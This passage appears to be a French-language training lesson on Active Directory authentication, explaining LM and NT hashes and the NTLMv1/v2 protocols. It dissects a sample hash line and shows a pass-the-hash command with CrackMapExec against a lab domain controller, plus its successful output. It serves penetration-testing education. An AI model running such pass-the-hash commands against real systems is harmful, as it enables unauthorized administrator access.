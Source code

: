 ## NTLM Authentication
Outre Kerberos et LDAP, Active Directory utilise plusieurs autres méthodes d'authentification qui peuvent être utilisées (et détournées) par les applications et les services dans AD. Il s'agit de LM, NTLM, NTLMv1 et NTLMv2. LM et NTLM sont des noms de hachage, et NTLMv1 et NTLMv2 sont des protocoles d'authentification qui utilisent le hachage LM ou NT. Voici une comparaison rapide entre ces hachages et ces protocoles, qui nous montre que, bien qu'il ne soit pas parfait, Kerberos est souvent le protocole d'authentification de choix dans la mesure du possible. Il est essentiel de comprendre la différence entre les types de hachage et les protocoles qui les utilisent.

**An NTLM hash looks like this:**
`Rachel:500:aad3c435b514a4eeaad3b935b51304fe:e46b9e548fa0d122de7f59fb6d48eaa2:::`
En examinant le hachage ci-dessus, nous pouvons décomposer le hachage NTLM en ses différentes parties :

- `Rachel` est le nom d'utilisateur
- `500` est l'identifiant relatif (RID). 500 est le RID connu pour le compte administrateur
- `aad3c435b514a4eeaad3b935b51304fe` est le hachage LM et, si les hachages LM sont désactivés sur le système, il ne peut être utilisé pour rien.
- `e46b9e548fa0d122de7f59fb6d48eaa2` est le hachage NT. Ce hachage peut être craqué hors ligne pour révéler la valeur en clair (en fonction de la longueur/de la force du mot de passe) ou utilisé pour une attaque de type "pass-the-hash". Vous trouverez ci-dessous un exemple d'attaque "pass-the-hash" réussie à l'aide de l'outil CrackMapExec :
```
0xz0r0@htb[/htb]$ crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2

SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)

```